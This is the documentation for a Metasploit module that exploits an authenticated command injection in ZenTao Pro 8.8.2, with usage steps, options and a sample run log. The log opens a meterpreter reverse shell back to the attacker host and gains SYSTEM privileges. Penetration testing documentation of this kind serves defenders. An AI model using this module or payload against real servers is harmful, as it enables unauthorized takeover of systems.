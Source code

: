 ## Vulnerable Application
This module exploits a command injection vulnerability in ZenTao Pro 8.8.2 and earlier versions in order to execute arbitrary commands with
SYSTEM privileges.
          
The module first tries to obtain the ZenTao Pro version from /pro/user-login.html. If a vulnerable version is found,
it attempts to authenticate to the ZenTao dashboard. It then tries to execute the payload by submitting fake repositories via
the 'Repo Create' function that is accessible from the dashboard via CI>Repo.
More precisely, the module sends HTTP POST requests to '/pro/repo-create.html' that inject commands in the vulnerable 'path'
parameter which corresponds to the 'Client Path' input field.

Valid credentials for a ZenTao admin account are required. This module has been successfully tested against ZenTao 8.8.1 and 8.8.2
running on Windows 10 (XAMPP server).

Vulnerable software for testing can be downloaded [here](https://www.zentao.pm/download.html)
and [here](https://sourceforge.net/projects/zentao/).
The easiest way to install the application is by downloading the 'One-Click Installation Package for Windows'.
The package for ZenTao 8.8.2 is available [here](https://www.zentao.pm/download/scrum-tool-team-collaboration-ztp8.8.2-413.html).
Installation is then just a matter of unzipping the package, launching the ZenTao Runner control panel via `Xampp\ start.exe`
and finally configuring and starting the server from ZenTao Runner. Detailed instructions are available [here]
(https://www.zentao.pm/book/zentaomanual/zentao-one-click-install-win-13.html).

## Verification Steps
1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/windows/http/zentao_pro_rce`
4. Do: `set RHOSTS [IP]`
5. Do: `set USERNAME [username for the ZenTao Pro account]`
6. Do: `set PASSWORD [password for the ZenTao Pro account]`
7. Do: `set payload [payload]`
8. Do: `set LHOST [IP]`
9. Do: `exploit`

## Options
### PASSWORD
The password for the ZenTao Pro account to authenticate with. This option is required.
### TARGETPATH
The path on the target where commands will be executed. The default value is `C:\`.
### TARGETURI
The base path to ZenTao Pro. The default value is `/pro/`.
### USERNAME
The username for the ZenTao Pro account to authenticate with. This option is required.

## Targets
```
Id  Name
--  ----
0   Windows (x86)
1   Windows (x64)
```

## Scenarios
### ZenTao 8.8.2 running on Windows 10 (XAMPP server)
```
msf5 exploit(windows/http/zentao_pro_rce) > show options

Module options (exploit/windows/http/zentao_pro_rce):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   PASSWORD    zentao123        yes       Password to authenticate with
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      192.168.9.14     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT       80               yes       The target port (TCP)
   SRVHOST     0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT     8080             yes       The local port to listen on.
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                      no        Path to a custom SSL certificate (default is randomly generated)
   TARGETPATH  C:\              yes       The path on the target where commands will be executed
   TARGETURI   /pro/            yes       The base path to ZenTao
   URIPATH                      no        The URI to use for this exploit (default is random)
   USERNAME    admin            yes       Username to authenticate with
   VHOST                        no        HTTP server virtual host


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.12     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Windows (x64)


msf5 exploit(windows/http/zentao_pro_rce) > run

[*] Started reverse TCP handler on 192.168.1.12:4444 
[+] Successfully authenticated to ZenTao 8.8.2.
[*] Executing the payload...
[*] Command Stager progress -  20.97% done (2049/9770 bytes)
[*] Command Stager progress -  41.94% done (4098/9770 bytes)
[*] Command Stager progress -  62.92% done (6147/9770 bytes)
[*] Command Stager progress -  83.89% done (8196/9770 bytes)
[*] Command Stager progress - 100.15% done (9785/9770 bytes)
[*] Sending stage (201283 bytes) to 192.168.9.14
[*] Meterpreter session 1 opened (192.168.1.12:4444 -> 192.168.9.14:50506) at 2020-07-08 15:01:22 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```
